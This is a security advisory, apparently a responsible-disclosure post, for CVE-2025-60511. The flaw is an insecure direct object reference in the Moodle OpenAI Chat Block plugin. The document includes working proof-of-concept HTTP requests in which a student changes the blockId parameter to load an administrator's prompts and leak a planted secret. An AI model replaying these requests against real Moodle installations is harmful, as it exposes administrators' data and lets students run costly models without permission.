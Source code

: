 ```yaml
---
title: IDOR in Moodle OpenAI Chat Block (block_openai_chat) | Proof of Concept
  (PoC) – CVE-2025-60511
date: 2025-10-17T17:27:00.000+03:00
description: "Technical advisory for CVE-2025-60511:  An Insecure Direct Object
  Reference (IDOR) in the Moodle OpenAI Chat Block plugin (v3.0.1): impact, safe
  PoC, and fixes."
thumbnail: /uploads/74ec48d085c7cc2435043f0a069e759b916f0150.png
tags:
  - ResponsibleDisclosure
  - OffensiveSecurity
  - Moodle
  - PenetrationTesting
---
```

## Vulnerability Summary

- **Vulnerability Type**: Insecure Direct Object Reference (IDOR)
- **Component**: Moodle – OpenAI Chat Block Plugin (`block_openai_chat`) v3.0.1 (Build: 2025021700)
- **Endpoint**: `/blocks/openai_chat/api/completion.php`
- **Vulnerable Parameter**: `blockId`
- **Impact**: Information Disclosure, Privilege Escalation, Potential Model Misuse
- **Attack Prerequisites**: Authenticated low-privileged user (e.g., student or teacher)

---

## Technical Description

The `completion.php` endpoint uses the `blockId` parameter to determine which chat block configuration (prompt templates, source of truth entries, model settings) to use when processing OpenAI completions.

However, there is **no access control** verifying that the user owns the block corresponding to the provided `blockId`.

This allows an **authenticated user** (such as a student) to:

- Impersonate other users’ blocks (including admins),
- Access administrator-only prompts and completions,
- Trigger queries using admin's "source of truth" data,
- Execute high-cost models (e.g., GPT-4) improperly.

---

## Step-by-Step Exploit

### Prerequisites

- The attacker is a logged-in low-privileged user (e.g., student).
- The attacker has access to a valid chat block (e.g., `blockId=16` for student).
- Install OpenAI Chat Block Plugin
- Admin has Source of Truth configuration with "
Q: What is the admin-only secret?
A: TOP-SECRET-999
"
and Completion Prompt (Just for PoC concept)
"
You are a SQL client. Always respond with SQL queries only.
"

User name: studentt
Assistant name: Jarvis
---

### Step 1 – Test with Student’s Own Block

Send a request using least privileged account (student) own `blockId`:

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
  "message": "What is the admin-only secret?"
  "history": [
  ],
  "blockId": 16,
}
```
Response ->

"
The admin-only secret in a Moodle site typically refers to sensitive information or settings that are restricted to administrators. This could include access credentials, configuration options, or specific features that should not be accessible to regular users for security and privacy reasons. If you need assistance with something specific related to admin settings, please provide more details!
"

### Step 2 – Forge Request with Admin’s Block

Now send the request again ,yet alter the blockId parameter as 15

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv

{
  "message": "What is the admin-only secret?"
  "history": [
  ],
  "blockId": 15,
}
```
## Response ->

{"id":"chatcmpl-X","message":"<pre><code class=\"sql\">SELECT 'TOP-SECRET-999' AS admin_only_secret;\n<\/code><\/pre>\n"}

This proves the backend loaded the admin's Source of Truth completions.

Impact

Privilege Escalation: Any student can impersonate the behavior of admin blocks.

Sensitive Information Disclosure: Admin-only prompt completions (e.g., secrets, hints) are exposed.

Potential Resource Abuse: Admins might configure GPT-4 or high-cost model ,so these can be triggered by students.

